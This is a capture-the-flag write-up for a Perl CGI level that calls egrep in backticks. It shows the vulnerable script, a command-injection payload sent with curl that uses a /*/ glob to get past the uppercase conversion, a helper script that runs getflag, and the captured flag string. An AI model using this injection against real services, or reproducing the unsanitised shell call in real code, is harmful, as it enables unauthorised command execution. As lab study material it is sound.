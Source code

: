 We have a pearl file : level12.pl
First we cat the file to see what is inside:

```pearl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1]; --> Assigns the second argument ($_[1]) to the variable $nn.
  $xx = $_[0]; --> Assigns the first argument ($_[0]) to the variable $xx.
  $xx =~ tr/a-z/A-Z/; --> Converts all lowercase letters in $xx to uppercase using the tr function.
  $xx =~ s/\s.*//; --> Removes any whitespace characters followed by any characters after the first whitespace in $xx using the substitution operator s///.
  @output = `egrep "^$xx" /tmp/xd 2>&1`; --> Executes the command egrep "^$xx" /tmp/xd 2>&1 using backticks (`) to capture the output.
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

Like the exerice 4, it is a server, we can send request with curl.
The important part is in sub t, in the @output line : egrep is used so we can inject some script to get back the flag.
We understand that only the first parameter matters ($xx) and this parameter will be converted into capital letters.
So with this informations, we have to create a script with a name in capital letters, in this script, we just have to
call getflag and save the output in a directory that we can use (for example /tmp).

First we create our script CAPTUREFLAG

#!/bin/sh
getflag > /tmp/myflag

Second we give the rights to our script

chmod 777 CAPTUREFLAG

and finally we call a HTTP request with the following parameters
localhost:4646 --> we just copy the port number that we found in the script
x="\`/*/CAPTUREFLAG\`"	--> We use backticks to make egrep execute our script.
						--> We use /*/ to find our script everywhere in the VM because
						our script is in /tmp/CAPTUREFLAG but the script is going to transform in capital letters
						/TMP/CAPTUREFLAG and then never going to find CAPTUREFLAG.

curl localhost:4646?x="\`/*/CAPTUREFLAG\`"

We just have to cat /tmp/myflag --> g1qKMiRpXf53AWhDaU7FEkczr